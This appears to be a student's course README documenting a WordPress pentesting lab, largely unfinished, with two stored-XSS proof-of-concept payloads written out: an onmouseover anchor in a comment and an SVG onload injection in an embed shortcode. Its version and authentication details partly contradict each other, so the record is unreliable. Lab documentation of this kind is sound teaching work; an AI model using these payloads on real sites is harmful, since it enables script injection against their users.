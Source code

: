 # Week-7-Project-WordPress-vs.-Kali

# Project 7 - WordPress Pentesting

Time spent: **20** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

(Required) WordPress <= 4.2 - Unauthenticated Stored Cross-Site Scripting (XSS)
1. (Required) XSS
  - [ ] Summary: XSS
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
  - [ ] GIF Walkthrough: <img src='1.gif' width=800>
  - [ ] Steps to recreate: Autheticated user must comment <a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px AAA...[64KB]...AAA></a> to successfully plan the vulnerability.
  - [ ] Affected source code:
    
(Required) 4.0-4.7.2 - Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds
2. (Required) XSS
  - [ ] Summary: YouTube embedded
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
  - [ ] GIF Walkthrough: <img src='2.gif' width=800>
  - [ ] Steps to recreate: Autheticated user must comment [embed src='https://youtube.com/embed/12345\x3csvg onload=alert("hgiytfiyt")\x3e'][/embed] to successfully plan the vulnerability
  - [ ] Affected source code:


  3. (Required) XSS
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.7.2
    - Fixed in version: 4.7.3
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
  
  
## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [2018] [Jisheng Huang]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.

